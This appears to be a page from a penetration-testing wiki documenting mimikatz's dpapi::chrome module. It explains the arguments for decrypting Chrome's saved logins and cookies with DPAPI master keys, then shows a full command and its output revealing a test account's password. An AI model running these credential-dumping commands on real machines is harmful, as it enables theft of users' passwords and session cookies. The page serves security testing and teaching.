 # chrome

`dpapi::chrome` dumps stored credentials and cookies from Chrome. It has the following command line arguments:

* `in`: the `C:\Users\<UserName>\AppData\Local\Google\Chrome\User Data\Default\Login Data` for the saves logins and the `C:\Users<UserName>\AppData\Local\Google\Chrome\User Data\Default\Cookies` for the cookies
* `key`: it is the _**key**_ output value of the `dpapi::masterkey in:"C:\Users\<UserName>\AppData\Roaming\Microsoft\Protect\SID\MasterKey_ID" /rpc`. it is useful for offline dumping of Chrome. CoreSecurity has published an excellent [guide](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz) on how this can be accomplished offline
* `state`: TODO
* `encryptedkey`: TODO
* `/password`: the user's password to use for decryption
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/unprotect`: display the decryption results on screen

```
mimikatz # dpapi::chrome /in:"C:\Users\m3g9tr0n\AppData\Local\Google\Chrome\User Data\Default\Login Data" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
> Encrypted Key found in local state file
> Encrypted Key seems to be protected by DPAPI
 * volatile cache: GUID:{5c22983f-77ee-41e4-9086-8073d664e417};KeyHash:850247e2dd89c50536c05bdcee1a56c395e752cf;Key:available
 * masterkey     : 3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
> AES Key is: fd0635bf2e19d76231f649f48f4a90df3de80d3f83aa5ad016b3155fdab37fa2

URL     : https://login.live.com/ ( https://login.live.com/login.srf )
Username: mytestmail@hotmail.com
 * using BCrypt with AES-256-GCM
Password: MySecretPass
```
